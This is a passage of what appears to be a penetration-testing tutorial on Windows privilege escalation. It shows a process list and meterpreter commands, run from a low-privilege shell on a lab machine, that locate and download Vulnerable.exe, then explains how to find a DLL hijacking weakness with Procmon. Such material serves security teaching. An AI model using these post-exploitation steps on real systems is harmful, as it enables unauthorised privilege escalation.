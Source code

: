  892   2584  SearchProtocolHost.exe                                         
 896   564   svchost.exe                                                    
 932   564   svchost.exe                                                    
 952   932   Vulnerable.exe                                                 
 968   2220  explorer.exe            x64   2        TARGETMACHINE\testuser  C:\Windows\explorer.exe
 972   564   svchost.exe                                                    
 996   80    WUDFHost.exe                                                   
 1104  564   spoolsv.exe                                                    
 1136  564   svchost.exe                                                    
 1324  564   svchost.exe                                                    
 1404  564   sqlwriter.exe                                                  
 1448  564   VGAuthService.exe                                              
 1460  2884  TPAutoConnect.exe       x64   2        TARGETMACHINE\testuser  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe
 1532  564   vmtoolsd.exe                                                   
 1572  80    TabTip.exe              x64   2                                
 1864  2832  dwm.exe                                                           
 1996  2568  mmc.exe                 x64   2                                
 2056  780   csrss.exe                                                      
 2224  564   msdtc.exe                                                      
 2472  932   taskhostex.exe          x64   2        TARGETMACHINE\testuser  C:\Windows\System32\taskhostex.exe
 2584  564   SearchIndexer.exe                                              
 2752  564   svchost.exe                                                    
 2832  780   winlogon.exe                                                   
 2876  952   conhost.exe                                                    
 2884  564   TPAutoConnSvc.exe                                              
 2916  896   audiodg.exe             x64   0                                
 2992  564   dllhost.exe                                                    
 3436  656   WmiPrvSE.exe                                                   
 3444  968   firefox.exe             x86   2        TARGETMACHINE\testuser  C:\Program Files (x86)\Mozilla Firefox\firefox.exe
 3480  968   vmtoolsd.exe            x64   2        TARGETMACHINE\testuser  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 3648  1460  conhost.exe             x64   2        TARGETMACHINE\testuser  C:\Windows\System32\conhost.exe
 3668  564   sppsvc.exe                                                     
 3732  1572  TabTip32.exe            x86   2                                
 3764  1752  Taskmgr.exe             x64   2        TARGETMACHINE\testuser  C:\Windows\System32\Taskmgr.exe
```
As you can see, if we are using low-priv shell we cannot see the details about processes which running with higher privileges, such as user, path, architecture. But we can understand which processes running with higher privileges than ours. If one of these processes have some weaknesses we can exploit it to escalate our privileges.

While investigating processes, Vulnerable.exe caught my attention. Let’s find it’s location and download it:
```
meterpreter > search -f Vulnerable.exe
Found 1 result...
    C:\Windows\SysWOW64\Vulnerable.exe (31232 bytes)
meterpreter > cd C:/Windows/SysWOW64
meterpreter > download Vulnerable.exe
[*] downloading: Vulnerable.exe -> Vulnerable.exe
[*] download   : Vulnerable.exe -> Vulnerable.exe
```
When we examine it a little bit, we will realize that it tries to load a dll named hijackable.dll.
The easiest way to detect DLL hijacking vulnerability is using Procmon tool.
To see the results more easily, you should add these 3 filters:
![procmon dll hijacing](../pictures/dll_hijack_procmon_new.png)
After adding filters, when you execute Vulnerable.exe, failed DLL loads will be listed:
![procmon 2](../pictures/dll_hijack_procmon-2.png)
```